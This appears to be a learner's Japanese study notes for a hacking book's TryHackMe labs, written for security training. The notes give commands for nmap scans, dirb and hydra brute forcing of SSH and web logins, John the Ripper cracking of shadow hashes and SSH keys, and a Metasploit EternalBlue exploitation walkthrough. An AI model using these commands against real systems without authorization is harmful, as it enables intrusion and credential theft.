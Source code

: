 # 7日間でハッキングを始める本

## 前提

- Kali Linux
    - Parallelsにて環境構築
        - `/Volumes/HDD/Parallels/Kali Linux 2024.2 ARM64.pvm`
    - ID/Pass
        - 共に`parallels`
    - `thm`にてTryHackMeにVPN接続するエイリアス設定済み
    - 基本的に以下の手順で進める
        1. Parallels立ち上げ
        1. ゲストOS（Kali Linux）起動
        1. ゲストOSにて`thm`コマンドでTryHackMeへVPN接続開始
            - フォアグラウンドで実行中の場合はCtrl+C、バックグラウンドで実行中の場合は`sudo pkill openvpn`でVPN接続解除
        1. ホストOSにてTryHackMeへログイン
        1. ホストOSにて任意のルームのターゲットマシンを起動する
    - `7DaysTryHacking 1`として環境構築直後の状態をスナップショットとして保存
    - mitmproxyのapt installが失敗する
        - mitmproxy 11.1.3のパッケージには`/usr/lib/python3/dist-packages/mitmproxy/tools/web/app.py`の231行目で構文エラー`def _require_auth[**P, R](`が含まれており、これはPythonの正しい構文ではないため
        - このバージョンのmitmproxyは、Kali Linuxのarm64環境やPython 3.11.9など一部の環境でインストール時に必ずこのエラーが出ます
        - 以下コマンドで一旦削除した
            ```
            sudo apt remove --purge mitmproxy
            sudo apt autoremove
            ```
        - もし必要であれば以下コマンドで再インストール
            ```
            sudo apt update
            sudo apt install python3 python3-pip python3-dev libffi-dev libssl-dev -y
            sudo pip3 install mitmproxy
            mitmproxy --version
            ```

## Basic Pentesting

- ポートスキャン
    - `nmap`コマンドを実行
        - `nmap -sV -Pn -oN namp.txt -v IPアドレス`
            - `-sV`：開いているポートのサービスバージョンを自動で特定する
            - `-Pn`：事前にICMPリクエストを送信して確認することなく、直接ポートスキャンを実行するオプション
                - ICMPがブロックされていた際にスキャンせずに終了ことを防ぐ
            - `-oN`：スキャン結果を保存する
            - `--script vuln`を行うことで脆弱性の検出も可能
- 辞書攻撃
    - `dirb`コマンド
        - 引数で指定したファイルに載っている文字列と同じ名前のディレクトリの存在を確かめる
        - 構文
            - `dirb <ターゲットURL> [ワードリストファイル] [オプション]`
            - 例：`dirb http://IPアドレス /usr/share/dirb/wordlists/small.txt`
        - ワードリストファイルを指定しない場合、デフォルトの辞書ファイルを使用する
    - `hydra`コマンド
        - パスワードクラックツール
        - 構文
            - `hydra -l <ユーザー名> -P <パスワードリスト> -t <スレッド数> <ターゲット> <プロトコル>`
            - 例
                - SSHのブルートフォース攻撃
                    ```
                    hydra -l admin -P /path/to/password_list.txt -t 4 192.168.1.100 ssh
                    ```
                    - adminユーザーで、パスワードリストを使い、4スレッドで192.168.1.100のSSH認証を試行
                - HTTP認証のテスト
                    ```
                    hydra -l user -P passwords.txt http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
                    ```
                    - /loginページで、失敗時に”incorrect”が返る場合に認証試行
    - John the Ripper
        - パスワードハッシュ形式の解析ツール
            - 対応ハッシュ形式
                - UNIX系
                    - /etc/passwd, /etc/shadow
                - Windows LM/NTLM
                - MD5, SHA-1, SHA-256, SHA-512
                - ZIP, PDF, Officeファイルのパスワードハッシュ
        - 使い方例
            - 辞書攻撃
                ```
                john --wordlist=/path/to/wordlist.txt hashes.txt
                ```
            - ルールベース攻撃
                ```
                john --wordlist=/path/to/wordlist.txt --rules hashes.txt
                ```
            - 解析結果の表示
                ```
                john --show hashes.txt
                ```
            - 秘密鍵ファイルのパスワード解析
                1. ハッシュ値抽出
                    ```
                    ssh2john id_rsa > hash.txt
                    ```
                1. 解析実行
                    ```
                    john --wordlist=/path/to/wordlist.txt hash.txt
                    ```
- Samba共有フォルダ
    - `smbclient -L IPアドレス`で指定したIPアドレスのサーバで利用可能な共有フォルダやプリンターなどの情報の一覧を取得する

## Blue

- Metasploit Framework
    - オープンソースのセキュリティ評価・脆弱性検証用フレームワーク
    - 主要なモジュールの種類
        - exploit
            - 脆弱性を突いてシステムに侵入するための攻撃コード
        - payload
            - exploit成功後に実行されるプログラム。シェルの取得やリバース接続など。
        - auxiliary
            - ポートスキャン、バージョン検出、ネットワーク解析など、攻撃補助のための機能
        - post
            - 侵入後にパスワードの取得やキーロガーの設置などを行う
        - encoder
            - ペイロードの検出回避や難読化のためのエンコード処理
        - nop
            - 攻撃コードの安定動作のための無操作命令
    - 使い方の概要
        1. ターゲットの選定と情報収集：auxiliaryモジュールでスキャンや調査を実施
        1. 脆弱性の特定と選択：exploitモジュールを選択し、ターゲットの脆弱性に合わせて設定
        1. ペイロードの選択：侵入後に何を行うか（シェル取得、ファイル転送など）を選ぶ
        1. 攻撃の実行：設定を確認し、攻撃を実行
        1. 侵入後の操作：postモジュールで追加操作や情報取得を行う
        - 使用例
            1. msfconsoleの起動
                ```
                msfconsole
                ```
            1. モジュールの検索
                ```
                search CVE-2017-0143
                ```
            1. モジュールの選択
                ```
                use exploit/windows/smb/ms17_010_eternalblue
                ```
            1. モジュールのオプションの確認と設定
                ```
                show options
                set RHOSTS ターゲットマシンのIPアドレス
                set LHOST ローカルマシンのIPアドレス
                ```
            1. エクスプロイトの実行
                ```
                exploit
                ```

## OWASP Juice Shop

- Burp Suite
    - PortSwigger社が開発したWebアプリケーションのセキュリティテストを行うための統合プラットフォーム
    - 主要な機能
        - Proxy：ブラウザとWebサーバ間の通信をインターセプト（傍受）し、内容の確認・編集ができる
        - Scanner：Webアプリの脆弱性を自動で検出（Professional Editionのみ）
        - Intruder：パラメータを自動で変更しながら攻撃を試行（ブルートフォースや辞書攻撃など）
        - Repeater：任意のリクエストを繰り返し送信し、レスポンスを比較・分析
        - Spider：Webサイトをクロールし、構造やリンクを自動で把握
        - Extender：拡張機能を追加して機能を拡張